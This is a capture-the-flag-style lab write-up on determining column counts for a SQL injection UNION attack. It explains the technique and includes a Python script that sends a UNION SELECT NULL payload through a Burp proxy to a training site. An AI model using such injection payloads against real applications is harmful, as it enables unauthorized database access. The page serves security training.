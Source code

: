 ```yaml
---
title: 'SQLi Lab 7'
description: 'SQL injection for determining the number of columns returned by a query'
---
```



## SQL injection UNION attack, determining the number of columns returned by the query

<div style="text-align: justify;">
  This lab demonstrates how to determine the number of columns returned by a query in a SQL injection scenario. The vulnerable product category filter returns the results of a query in the application's response. To perform a `UNION` attack, the first step is to find the correct number of columns by sending payloads containing `NULL` values until the query executes successfully without errors. This technique is fundamental for constructing further SQL injection attacks in subsequent labs.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- Start with a payload like `'+UNION+SELECT+NULL--` to test the query. An error indicates the number of columns does not match.
- Gradually add `NULL` values separated by commas (e.g. `'+UNION+SELECT+NULL,NULL--`) until the response executes successfully.
- Once the number of columns is correct, the lab is considered solved.
- This method prepares the ground for full `UNION SELECT` attacks in future labs.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Check if Burp Suite is running and listening on the configured proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_sqli(url, payload):
    """
    Send payload directly in the URL, then check base URL for success banner.
    """
    try:
        # Step 1: Send payload
        full_url = url.rstrip("/") + payload
        res = requests.get(full_url, verify=False, proxies=proxies, timeout=10)
        res.raise_for_status()

        # Step 2: Request base URL again and check for 'Congratulations'
        check_res = requests.get(url, verify=False, proxies=proxies, timeout=10)
        check_res.raise_for_status()
        return "Congratulations" in check_res.text

    except requests.RequestException as e:
        print(f"[-] Error while sending request: {e}")
        sys.exit(1)

def main():
    """
    Entry point of the script.
    """
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define SQL injection payload
    payload = "/filter?category='+UNION+SELECT+NULL,NULL,NULL--"

    # Step 3: Attempt exploitation
    print("[*] Sending payload...")
    if exploit_sqli(url, payload):
        print("[+] Lab solved! 🎉")
    else:
        print("[-] Payload sent but lab not solved (no 'Congratulations' found).")

if __name__ == "__main__":
    main()
```
